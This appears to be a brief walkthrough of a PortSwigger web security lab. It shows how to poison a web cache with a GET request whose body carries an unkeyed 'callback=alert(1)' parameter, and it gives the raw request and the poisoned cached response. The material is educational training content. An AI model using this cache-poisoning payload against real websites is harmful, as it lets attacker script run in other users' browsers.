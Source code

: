 # [Lab: Web cache poisoning via a fat GET request](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get)

## Lab

This lab is vulnerable to web cache poisoning. It accepts `GET` requests that have a body, but does not include the body in the cache key. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the cache with a response that executes `alert(1)` in the victim's browser.

## "fat" GET request

a GET request with a request body

## Solutions

cache poisoning:

```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1

callback=alert(1)

HTTP/1.1 200 OK
Cache-Control: max-age=35
Age: 0
X-Cache: miss

alert(1)({"country":"United Kingdom"});
```

unkeyed: fat GET body
